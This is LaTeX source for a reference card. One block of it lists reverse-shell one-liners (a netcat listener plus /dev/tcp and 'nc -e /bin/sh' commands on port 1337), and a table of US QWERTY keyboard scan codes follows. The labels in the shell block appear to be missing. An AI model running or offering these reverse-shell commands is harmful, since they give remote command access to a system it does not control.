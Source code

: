 \documentclass{refcard}
\begin{document}
\begin{ldesc}
	 client\$ netcat -vlp 1337
	  \$ sh >\& /dev/tcp/client/1337 0>\&1
	\li[\ \ (colored)]       \$ bash -i >\& /dev/tcp/client/1337 0>\&1
	 \$ netcat -e /bin/sh localhost 1337
	\li[\ \ (colored)]       \$ nc -e "/bin/bash -i" localhost 1337
\end{ldesc}

\pagebreak

\section{Keyboard Scan Codes (US QWERTY)}


\newcommand{\ppkey}{\textbackslash{} \textbar}

\begin{tabular}{C@{\hspace{6ex}}llllll}
	   &  &  &  &  &  &  \\[1ex]
	+0 & error  & q      & d      & b      & F6     & KP 2   \\
	+1 & Esc    & w      & f      & n      & F7     & KP 3   \\
	+2 & 1      & e      & g      & m      & F8     & KP 0   \\
	+3 & 2      & r      & h      & , $<$  & F9     & KP Del \\

	+4 & 3      & t      & j      & . $>$  & F10    & SysRq  \\
	+5 & 4      & y      & k      & / ?    & NmLck  & --     \\
	+6 & 5      & u      & l      & RShift & ScLck  & --     \\
	+7 & 6      & i      & : ;    & KP *   & KP 7   & F11    \\

	+8 & 7      & o      & ' "    & LAlt   & KP 8   & F12    \\
	+9 & 8      & p      & ` ~    & Space  & KP 9   & --     \\
	+a & 9      & \{ [   & LShift & CaLck  & KP -   & --     \\
	+b & 0      & ] \}   & \ppkey & F1     & KP 4   & --     \\

	+c & - \_   & Enter  & z      & F2     & KP 5   & --     \\
	+d & + =    & LCtrl  & x      & F3     & KP 6   & --     \\
	+e & Back   & a      & c      & F4     & KP +   & --     \\
	+f & Tab    & s      & v      & F5     & KP 1   & --     \\
\end{tabular}
\end{document}
